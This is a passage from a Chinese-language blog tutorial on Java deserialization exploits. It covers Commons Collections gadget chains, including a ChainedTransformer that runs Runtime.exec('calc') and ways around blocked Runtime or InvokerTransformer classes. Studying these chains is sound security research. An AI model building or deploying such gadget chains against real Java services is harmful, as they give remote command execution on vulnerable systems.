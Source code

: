 ```java
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```

这样Runtime被ban了也能执行命令，而且加载字节码的后续利用范围也更多。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240801173716026.png)



那InvokerTransformer也被ban了呢？

### InstantiateTransformer触发TrAXFilter构造器

直接触发newTransformer的如图，Process是在main里，没办法用。

getOutputProperities作为一个getter方法，在后面的CC11和fastjson中会用到。先略过

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240801162850297.png)

TranformerFactoryImpl及其父类都没有继承serializable接口，虽然没有继承serializable的一些类依然有办法在反序列化获取实例，比如我们前面的chainedTransformer，实际上整个序列化过程都没有用到Runtime的实例，创建实例的过程发生在反序列化途中。但这种方式要求`构造函数`或者`获取实例的方法`能传进需要的参数，因为链式的过程中无法再去反射修改实例的字段。你看我们反射修改都是在序列化对象上。

```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```

> 所以我们可以做个小总结，目前能调用使用非serializable类的地方只有InvokerTransformer的链式调用中。

我们看TranformFactoryImpl，需要指定templates为上文生成的templatesClass

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240801171206983.png)

那有没有获取实例的地方或者构造函数能修改templates呢，答案是没有

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240801171345478.png)

所以这个类不能用。
